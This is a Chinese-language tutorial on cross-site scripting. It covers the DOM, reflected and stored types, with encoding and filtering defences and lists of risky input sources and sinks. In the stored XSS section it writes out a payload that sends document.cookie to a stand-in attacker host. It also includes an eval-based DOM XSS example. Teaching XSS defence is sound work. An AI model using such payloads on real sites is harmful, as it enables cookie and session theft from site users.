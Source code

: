 # 跨站脚本攻击(Cross Site Scripting,XSS)概述
  XSS的目标是让其他站点的js文件运行在目标站点的上，这主要发生在页面渲染阶段。在该阶段发生了某些非预期的脚本行为，该脚本可能来自用户的输入，也可能来自域外的其他js文件，不一而足。

  主要有两点：
  1.其他站点的js文件运行在目标站点上
  2.发生起源主要来自于用户输入

# XSS的类型：

XSS的发生起源来自于用户输入，因此根据用户输入数据以何种形式、何时触发XSS、是否有后端服务器的参与将其划分为三种类型:

1.DOM XSS:
2.反射型XSS: 即用户输入带有xss代码的url访问页面资源，而服务端对url参数值没有进行过滤，直接返回给了浏览器，而浏览器端又用其直接进行了渲染。导致用户cookie及其信息被泄露。
3.存储型XSS: 后端参与且存储

## DOM XSS:
1.一般形式:
  例：
  test.html:
     <script>
      eval('alert(location.hash.slice("1"))');
     </script>

  攻击者输入：
    localhost/test.html#document.cookie
 
## 反射型XSS：

## 存储型XSS：
1.一般形式:
  例：
  test.html:
    <form method="post" action="/">
      <fieldset>
        <label>备注：</label><input type="text" value="" />
      </fieldset>
    </form>
  攻击者在备注输入框中输入如下内容，然后后台系统的使用人员的cookie信息将会被攻击者拿到：
    <script>document.getElementById('attacker').href='http://www.attacker_741.com/receiveCookies.html?'+document.cookie;</script>
    

# 总的预防措施:
  对输入(和URL参数)进行过滤，对输出进行编码

## 编码预防原理：
  将相关内容编码后，其只能作为字符串在页面中进行显示，而不能作为Html或js或url进行解析执行。

## 注意事项：
1.url编码时，不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型，进而导致不能正常解码，不能正常执行；
2.js编码时，对圆括号、双引号、单引号等等字符如果进行编码，解码时其仅会被解析为字符串文本或者标识符名称。
3.浏览器对Html、js和url的解析原理：
  (1)对于文档只含有html和url的情况：先html解析，然后url解析。
  (2)对于文档含有html和url以及js，且url内容为js的情况。先html解析，然后url解析,最后js解析。
  (3)对于文档含有html和url以及js，且js内容为url的情况。先html解析，然后js解析,最后url解析。
  
# 具体措施:
## 为了预防XSS，进行html编码时，需要编码的字符至少需要包含如下字符：
  1.< :即左尖括号；
  2.> :即右尖括号；
  3.` :即单引号；
  4." :即双引号；
  5.& :即与操作。

## 为了预防XSS，js可以进行转义和编码。
  1.转义：使用“\”对特殊字符进行转义后，字符将以字符串形式呈现，不会当做代码执行。
  2.编码：对圆括号、双引号、单引号等等字符如果进行编码，解码时其仅会被解析为字符串文本，不会被当做代码执行。

## 为了预防XSS，url编码。
  对url键值对中的值进行编码。

## 需要留意的输入源：
  1.document.URL；
  2.location.hash；
  3.location.research；
  4.document.referrer(此处应尤为注意，referrer属性虽然可用于避免CSRF，但可触发XSS攻击)；
  5.XHR返回值（跨域返回值）；
  6.form表单及各种input框。

## 需要留意的操作：

1.直接输出HTML内容
  document.body.innerHTML = ...
  document.body.outterHTML = ...
  document.write()

2.HTML标签内联脚本:
  <img src='abc' onerror=alert('error')>

3.直接执行脚本:
  eval
  new Function(){}
  setTimeout()
  window.execScript()

4.打开新页面触发XSS:
  window.open()
  location.href = ...
  location.hash = ...






